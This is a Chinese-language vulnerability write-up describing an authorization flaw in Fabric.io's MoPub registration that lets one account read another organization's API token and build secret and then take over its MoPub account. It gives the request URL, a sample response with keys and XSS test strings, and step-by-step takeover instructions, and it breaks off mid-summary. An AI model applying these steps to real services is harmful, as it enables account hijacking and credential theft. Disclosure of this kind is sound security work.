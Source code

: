 ## 前言

声明：文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。


## 主要逻辑

Fabric平台帮助你构建更稳定的应用程序，通过世界上最大的移动广告交易平台产生收入，并使你能够利用Twitter的登录系统和丰富的实时内容,实现更大的分发和更简单的身份识别; 在注册功能(主要是为公司注册)中,缺少适当的授权检查，允许任何用户窃取API令牌。


## 请求

URL GET/POST data: POST METHOD:

`https://fabric.io/img-srcx-onerrorprompt15/android/apps/app.myapplication/mopub`

![img_13.png](img_13.png)

响应:

```json
{
  "mopub_identity": {
    "id":"5496c76e8b15dabe9c0006d7",
    "confirmed":true,
    "primary":false,
    "serv ice":"mopub",
    "token":"35592"
                  },
  "organization":{
    "id":"5460d2394b793294df01104a",
    "name":"\u003Ca href=\"javascript:alert(1);\"\u003Es\u003C/a\u003E\u003Ch1\u003Etest\u003C/h1\u003E",
    "al ias":"img-srcx-onerrorprompt1s- projects2",
    "api_key":"8590313c7382375063c2fe279a4487a98387767a",
    "enrollments":{
      "beta_ distribution":"true"
    },
    "accounts_count":3,
    "apps_counts":{
      "android":2
    },
    "sdk_organization":true,
    " build_secret":"5ef0323f62d71c475611a635ea09a3132f037557d801503573b643ef8ad82054",
    " mopub_id":"33525"
  }
}
```

## 复现步骤

1.创建两个账户

2.记下这两个账户的公司(organization)id

3.账户A用公司B的id重复上述请求
![img_15.png](img_15.png)

4.你就可以窃取受害者mopub API令牌

## 账户劫持

1.用上述方法使用fabric.io从受害者那里窃取到`build secret`

2.使用下面的URL进入受害者mopub帐户。
`https://app.mopub.com/complete/htsdk/?code=[build secret]&amp;next=%2d replace
[build secret] with token you extracted from step one`

用从第一步提取的令牌取代`build secret`


3.现在你将可以访问受害者mopub的帐户，他的所有应用程序/组织将在fabric中显示出来

![img_14.png](img_14.png)



## 小结

这是一个标准的越权漏洞: